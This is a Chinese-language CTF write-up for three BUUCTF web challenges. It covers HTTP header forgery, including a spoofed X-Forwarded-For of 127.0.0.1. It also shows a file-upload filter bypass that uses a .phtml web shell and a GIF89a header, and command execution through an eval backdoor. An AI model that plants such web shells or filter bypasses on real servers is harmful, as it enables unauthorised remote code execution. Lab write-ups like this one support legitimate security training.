 # 刷题！

## [极客大挑战 2019]Http

进入实例得到一个网站，看不出什么端倪，将源代码拷贝到本地./http.html查看。

在第57行发现Secret.php，在url中尝试直接访问。回显：

It doesn't come from 'https://Sycsecret.buuoj.cn'

结合题目标题名字，我们应该是要修改http的报头来使得在服务端看来我们的请求来自上面这个地址，

类似的后面还有几项要修改，这里简单汇总一下，按照要求修改报头再请求就得到flag。

- Referer: https://example.com/previous-page 正常情况下用来记录跳转前的源网站，一般用于统计流量来源等，这里被我们手动修改来伪造来源
- User-agent：记录浏览器信息，正常来说可以随意修改（在做题的时候，这里被修改为指定Sysclover
- X-Forwarded-For：记录到达服务端的上一个代理地址，这里被我们修改为127.0.0.1，因为提示要从本地访问，利用本地回环地址即可简易伪造成本地请求(测试了一下0.0.0.0不行)

## [极客大挑战 2019]Upload

文件上传类型的简单模版题！

因为文件上传之后应该会存储在服务器内部，所以获取shell的一种直白思路就是放一个木马php进去，然后通过网页url执行。

比较简单的测试木马php可以这么写：

```php
<?php
    shell_exec("echo \"I got you.\"")
?>
```

在本地保存为1.php，然后上传，回显：

No image!

看来是一定要我们提交image文件，一种想法是可以在bs里面修改一下文件类型试试：

```
POST /upload_file.php HTTP/1.1

Host: e35e60ad-a5d5-4221-b82b-3723837ada13.node5.buuoj.cn:81

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: multipart/form-data; boundary=---------------------------397188862432432799893869978614

Content-Length: 389

Origin: http://e35e60ad-a5d5-4221-b82b-3723837ada13.node5.buuoj.cn:81

Connection: keep-alive

Referer: http://e35e60ad-a5d5-4221-b82b-3723837ada13.node5.buuoj.cn:81/

Upgrade-Insecure-Requests: 1

Priority: u=0, i



-----------------------------397188862432432799893869978614

Content-Disposition: form-data; name="file"; filename="1.php"

Content-Type: application/x-php



<?php
    shell_exec("echo \"I got you.\"")
?>


-----------------------------397188862432432799893869978614

Content-Disposition: form-data; name="submit"



提交

-----------------------------397188862432432799893869978614--
```

把content-type改一下，因为猜测其会过滤文件类型，改成image/png就可以，回显：

NOT！php!

说明应该是过滤了php语言里的一些东西，但我们又需要用php执行来进行渗透，这个时候就需要涨点新知识：

***phtml*** 是一种文件扩展名，通常用于PHP脚本文件。
详细介绍
1. 含义
    .phtml 代表 PHP Hypertext Markup Language。
    本质上是 PHP 文件，内容可以包含 HTML、PHP 代码、CSS、JavaScript 等。

2. 用途
    用于和 .php 文件一样，在服务器端解析为动态网页。
    早期（如 PHP3、PHP4）常用 .phtml 后缀，后来主流变成 .php。
    有些项目可能用 .phtml 区分“纯模板文件”（只输出 HTML 和变量，不包含业务逻辑），但这不是官方标准。

3. 执行方式
    只要服务器（如 Apache/Nginx）配置 .phtml 后缀交给 PHP 解析器处理，该文件就和 .php 一样能执行 PHP 代码。

4. 安全与渗透相关
    安全测试/渗透场景：有时上传过滤只允许 .php，但忘记拦截 .phtml，导致可以上传 WebShell。渗透测试常用此后缀绕过限制。

5. 兼容性
    现代 PHP 环境一般默认支持 .phtml 后缀，只要在服务器配置里有对应的解析规则。

我们把木马用.phtml的格式重写，就可以不再出现php文件的标志性的'<?'(一般都用这个来过滤php文件防注入)：

```phtml
<script language='php'>
    shell_exec("echo \"I got you.\"")
</script>
```

回显：

Don't lie to me, it's not image at all!!!

说明还有进一步的检测，比较普遍的是getimagesize()来检测，这个函数返回图片的大小等信息，我们只需要伪造一个gif的文件头：

GIF89a

就可以轻松绕过，最后得到回显：

上传文件名: 1.phtml

成功上传了！我们访问./upload文件夹来找一下我们上传的文件：

![alt text](image.png)

可以看到是成功上传了的，我们尝试执行：

./1.phtml

发现没有输出？

查了一下似乎直接使用shell_exec不行，类似的我们还有system(),修改木马之后即得到回显：

GIF89a I got you. 

看来是没问题了，现在我们先用ls找一下flag，然后取出来就可以。

## [极客大挑战 2019]Knife

标题叫knife，直接用knife软件破解当然是很轻松的，不过大魔导师果然还是要钻研一下原理。

小知识：eval()表示直接执行括号内的 ***php*** 语句

可以直接用Hackbar来进行POST的传入，在输入框内填上a=0&b=1就可以直接用POST方法传入参数了，

我们先测试性传入Syc=phpinfo()，回显正常。

于是我们迫不及待输入`Syc=echo system("ls /");`,却发现没有任何反应，why?

排查了很久都不知道为什么，最后一语点醒梦中人，看一下源代码（永远，永远看网页要看源代码！），发现其实已经显示出来了，只是因为字体颜色也是黑色被背景覆盖了...

总之后面正常RCE拿flag就可以。







